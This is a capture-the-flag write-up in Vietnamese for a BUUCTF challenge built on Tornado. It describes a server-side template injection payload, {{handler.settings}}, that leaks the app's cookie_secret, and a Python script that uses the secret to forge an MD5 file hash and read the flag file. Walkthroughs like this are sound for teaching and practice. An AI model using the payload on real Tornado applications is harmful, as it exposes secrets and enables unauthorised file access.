 Challenge cho ta 3 đuồng dẫn

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/a2a056ea-5309-49dd-8649-72468063f2b7)

```
/flag.txt
flag in /fllllllllllllag

/welcome.txt
render

/hints.txt
md5(cookie_secret+md5(filename))
```

Vậy thì flag thì sẽ ở  `/fllllllllllllag`. Và sau khi mở dường dẫn `/hints.txt` thì 1 method GET thực hiện  nội dung sau `/file?filename=/hints.txt&filehash=40537aea44509546077b9e084731b10f`

Ở đây `filename=/hints.txt` và `filehash=40537aea44509546077b9e084731b10f`.Dựa theo nội dung đường dẫn hints.txt thì `filehash=md5(cookie_secret+md5(filename))`.Ta chỉ còn thiếu `cookie_secret` là solve được bài.

Và ta thầy là GET request luôn tạo bởi file `/file` . Mở đường dẫn đó ta được

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/467d865c-51f2-43c4-b78a-1299b8471faa)

Ta được 1 GET request nữa với tham số `msg=Error`.Theo tên challenge là `Tornado` là framework của python có lỗi SSTI. Mình thử bypass cơ bản bằng cách inject `{{7*7}}`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/f81abe07-e24a-43f0-a477-eb53d3d22e80)

Kết quả trả về là `ORZ`, mình có thử những cách khác nhưng kết quả vẫn trở về như vậy.Sau khi research về framework tonardo [ở đây](https://www.tornadoweb.org/en/stable/web.html#tornado.web.RequestHandler.settings). Thì khi build web, tonardo có nhiều handler, và tất cả những handler đó đều là subclasses của RequestHandler.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/b95a0940-4104-490c-ade6-ef634081db81)

Nên `RequestHandler.settings là self.application.settings`.Vậy thì `Handler.settings là RequestHandler.settings`.

Được payload `/error?msg={{handler.settings}}`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/c9201a69-95e8-4741-b2f6-3275a88a4dab)

Ta đã có `cookie_secret`, giờ chỉ cần dựa theo hint đã cho là ta có được `filehash`

```python
import hashlib
cookie='071f4990-29d5-4229-ad1b-fa68bd367736'
file_filename = '/fllllllllllllag'
md5_filename = hashlib.md5(file_filename.encode(encoding='UTF-8')).hexdigest()
word = cookie+md5_filename
flag = hashlib.md5(word.encode(encoding='UTF-8')).hexdigest()
print(flag)
///output:615ce0a3b27ca20b0733e572504944c9
```

Ta được: `/file?filename=/fllllllllllllag&filehash=615ce0a3b27ca20b0733e572504944c9`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e1d7de1c-f269-457a-81d2-65d75a4a40ce)







